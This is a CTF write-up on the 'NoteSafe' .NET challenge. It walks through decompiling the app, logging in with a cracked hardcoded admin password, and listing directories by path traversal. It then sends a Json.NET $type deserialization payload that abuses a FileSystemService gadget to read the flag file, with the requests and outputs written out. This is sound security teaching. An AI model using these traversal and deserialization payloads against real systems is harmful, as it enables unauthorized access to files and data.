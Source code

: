 ```yaml
---
title: Note-Safe Trust Issues
description: Insecure Deserialization
slug: hello-world
date: 2025-07-03 00:00:00+0000
image: cover.jpg
tags:
    - insecure-deserialization
    - dotnet 
    - ctf-writeup
---
```


Welcome to NoteSafe, the ultra-secure note-taking app that protected by "Bitcoin-style encryption"™. Store your deepest thoughts and sensitive files behind a digital vault crafted by developers who read just enough of the Bitcoin whitepaper to feel dangerous.

But how safe is NoteSafe, really?

Can you bypass the crypto-hype, dig through the interface, and uncover what they've desperately tried to hide? A flag waits for the one who can see through the buzzwords and break the illusion of security.

## Writeup

1. There are many dotnet DLL files. We can use JetBrain's dotPeek to disassemble them.
2. There is an interesting code in `NoteSafe.Services.DatabaseService`

```cs
  private async Task SeedDatabaseAsync()
  {
    try
    {
      if (!await this.CheckTableExistsAsync("Users"))
        LoggerExtensions.LogWarning((ILogger) this._logger, "Users table does not exist, cannot seed database.", Array.Empty<object>());
      else if (await this._context.Users.CountAsync<User>() > 0)
      {
        LoggerExtensions.LogInformation((ILogger) this._logger, "Database already has users, skipping seed.", Array.Empty<object>());
      }
      else
      {
        User adminUser = new User()
        {
          Username = "admin",
          PasswordHash = "240be518fabd2724ddb6f04eeb1da5967448d7e831c08c8fa822809f74c720a9",
          CreatedAt = DateTime.UtcNow
        };
        this._context.Users.Add(adminUser);
        int num1 = await this._context.SaveChangesAsync();
        LoggerExtensions.LogInformation((ILogger) this._logger, "Added admin user to database.", Array.Empty<object>());
        this._context.Notes.Add(new Note()
        {
          Title = "Secret Flag",
          Content = "FLAG{this_flag_is_not_the_flag}",
          CreatedAt = DateTime.UtcNow,
          UpdatedAt = DateTime.UtcNow,
          UserId = adminUser.Id
        });
        int num2 = await this._context.SaveChangesAsync();
        LoggerExtensions.LogInformation((ILogger) this._logger, "Added flag note to database.", Array.Empty<object>());
        adminUser = (User) null;
      }
    }
    catch (Exception ex)
    {
      LoggerExtensions.LogError((ILogger) this._logger, ex, "Error seeding database.", Array.Empty<object>());
      throw;
    }
  }
```
- The password is `admin123`
2. Let's log in as admin:admin123 ![dashboard](Pasted image 20250627215718.png)
	- Alright we are in
3.  The flag does not work ![does not work](Pasted image 20250627215948.png)
4. We can get directory listing like this:
```http
GET /api/Files/list?folder=../../ HTTP/1.1
```
5. Note: It is most probably an insecure deserialisation problem
```cs
  public async Task<Note> CreateNoteAsync(string jsonPayload, int userId)
  {
    Note noteAsync;
    try
    {
      try
      {
        Note note = JsonConvert.DeserializeObject<Note>(jsonPayload);
        if (note != null)
        {
          note.UserId = userId;
          note.CreatedAt = DateTime.UtcNow;
          note.UpdatedAt = DateTime.UtcNow;
          this._context.Notes.Add(note);
          int num = await this._context.SaveChangesAsync();
          noteAsync = note;
          goto label_15;
        }
        note = (Note) null;
      }
      catch
      {
      }
      object obj1 = JsonHelper.DeserializeObject<object>(jsonPayload);
      PropertyInfo[] properties = obj1.GetType().GetProperties();
      Dictionary<string, object> dictionary = new Dictionary<string, object>();
      foreach (PropertyInfo propertyInfo in properties)
      {
        try
        {
          object obj2 = propertyInfo.GetValue(obj1); // creating the object
          dictionary[((MemberInfo) propertyInfo).Name] = obj2;
        }
        catch
        {
          dictionary[((MemberInfo) propertyInfo).Name] = (object) "[Error reading property]";
        }
      }
      throw new InvalidOperationException("Invalid object type. Debug info: " + JsonConvert.SerializeObject((object) dictionary)); // we want to trigger this
    }
    catch (Exception ex)
    {
      throw;
    }
label_15:
    return noteAsync; // we dont want this
  }
```
Reason for the vulnerability: `JsonHelper.DeserializeObject<object>`
```cs
public static T DeserializeObject<T>(string json)
  {
    try
    {
      JsonSerializerSettings settings = new JsonSerializerSettings()
      {
        TypeNameHandling = TypeNameHandling.All,
        SerializationBinder = (ISerializationBinder) null,
        TypeNameAssemblyFormatHandling = TypeNameAssemblyFormatHandling.Full,
        ConstructorHandling = ConstructorHandling.AllowNonPublicDefaultConstructor,
        PreserveReferencesHandling = PreserveReferencesHandling.Objects,
        MetadataPropertyHandling = MetadataPropertyHandling.ReadAhead
      };
      return JsonConvert.DeserializeObject<T>(json, settings);
    }
    catch
    {
      throw;
    }
  }
```
- `T` can be only object, so we can deserialize any object we want.
6. Our JSON payload:
First, We identify our gadget: In this case, our gadget is  FileSystemService object as it will read file and store it as an instance variable
```cs
public class FileSystemService
{
  public string FilePath { get; set; } // we can set FilePath

  public FileSystemService()
  {
  }

  public FileSystemService(string filePath) => this.FilePath = filePath;

  public string ReadFileAsString(string path = null)
  {
    string str = path ?? this.FilePath;
    if (string.IsNullOrEmpty(str))
      return (string) null;
    try
    {
      return File.Exists(str) ? File.ReadAllText(str) : (string) null;
    }
    catch (Exception ex)
    {
      return (string) null;
    }
  }

  public string FileContents // file contents is leaked here
  {
    get => this.ReadFileAsString();
    set
    {
    }
  }
	<snip>
}

```
We need to get information about the assembly and type from dotPeek
```
// Decompiled with JetBrains decompiler
// Type: NoteSafe.Services.FileSystemService
// Assembly: NoteSafe, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
// MVID: 50FA2D5F-03F2-4E88-B45C-760E5B77FEB8
// Assembly location: C:\Users\Khiew\Downloads\NoteSafe\NoteSafe\FOR_PLAYER\NoteSafe\NoteSafe\NoteSafe.dll
```
To build our payload,
```json
{"$type": "NoteSafe.Services.FileSystemService, NoteSafe, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null","FilePath": "../../../flag.txt"}
```
Output:
```http
HTTP/1.1 400 Bad Request

Content-Type: text/plain; charset=utf-8

Date: Fri, 27 Jun 2025 23:43:28 GMT

Server: Kestrel

Content-Length: 127



Invalid object type. Debug info: {"FilePath":"../../flag-hLS1iTUpUV.txt","FileContents":"flag{fake_flag}"}
```
7. However, this will not work in remote. This is because the organizer changed the name of the flag file. To find the new name, list the directory with the endpoint previously
```http
GET /api/Files/list?folder=../../ HTTP/1.1
```
Output:
```json
{"currentPath":"/app/../../","files":[{"name":"flag-hLS1iTUpUV.txt","path":"/app/../../flag-hLS1iTUpUV.txt","size":36,"lastModified":"2025-06-19T20:56:28.7842621+00:00"},{"name":".dockerenv","path":"/app/../../.dockerenv","size":0,"lastModified":"2025-06-27T23:38:41.8432009+00:00"}], <snip>}
```
- The path is `/app/../../flag-hLS1iTUpUV.txt`
8. To get the flag,
```http
POST /api/Notes HTTP/1.1
{"$type": "NoteSafe.Services.FileSystemService, NoteSafe, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null","FilePath": "../../flag-hLS1iTUpUV.txt"}
```
Output:
```
Invalid object type. Debug info: {"FilePath":"../../flag-hLS1iTUpUV.txt","FileContents":"prelim{buzzw0rd5_4r3_n0t_3ncrypt10n}"}
```
